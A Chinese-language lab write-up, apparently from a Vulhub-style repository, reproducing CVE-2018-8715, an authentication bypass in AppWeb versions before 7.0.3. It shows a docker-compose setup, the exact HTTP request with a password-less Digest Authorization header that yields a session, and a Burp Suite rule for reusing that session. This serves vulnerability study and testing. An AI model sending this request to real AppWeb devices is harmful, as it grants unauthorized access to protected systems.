



# AppWeb认证绕过漏洞 CVE-2018-8715

## 漏洞描述

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

参考链接：

- https://ssd-disclosure.com/index.php/archives/3676

## 环境搭建

Vulhub执行如下命令启动一个带有digest认证的Appweb 7.0.1服务器：

```
docker-compose up -d
```

访问`http://your-ip:8080`，需要输入账号密码。

## 漏洞复现

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: 192.168.174.128:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Authorization: Digest username=admin
```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：



在Burpsuite→Options→Match and Replace中设置规则，这样在每次发送数据包时将自动在Headers中加入Cookie，添加session到浏览器：



即可正常访问需要认证的页面：



